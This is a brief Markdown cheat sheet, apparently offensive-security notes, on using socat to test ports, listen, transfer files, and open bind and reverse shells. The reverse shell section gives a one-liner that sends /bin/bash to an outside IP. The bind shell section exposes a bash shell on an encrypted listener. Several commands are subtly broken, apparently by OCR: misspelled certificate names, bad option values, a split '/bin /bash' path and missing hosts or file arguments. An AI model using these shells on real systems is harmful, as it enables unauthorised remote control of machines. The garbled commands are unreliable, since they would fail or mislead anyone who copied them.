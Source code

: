 # Socat

## Test open port

```text
socat - <protocol>:<xx.xx.xx.xx>:<port> 
e.g; socat - TCP4:192.168.1.10:80
```

## Listening on a TCP/UDP Port

`socat TCP4-LISTEN:443 STDOUT`

## Transfering file using Socat

### SENDER \(Listener\)

`socat TCP4-LISTEN:443,fork`

### RECEIVER

`socat TCP4:18.11.8.4:443,create`

## Bind Shell

### LISTENER

`socat OPENSSL-LISTEN:443,cert=bind_shett.pem,verify=e,fork EXEC:/bin /bash`

\* enabled encryption.

### Client

`socat - OPENSSL::,verify=8`

## Reverse Shell

### LISTENER

`socat -d -d TCP4-LISTEN:443 STDOUT`

### Client \(Send Reverse shell\)

`socat TCP4:18.11.8.22:443 EXEC:/bin/bash`

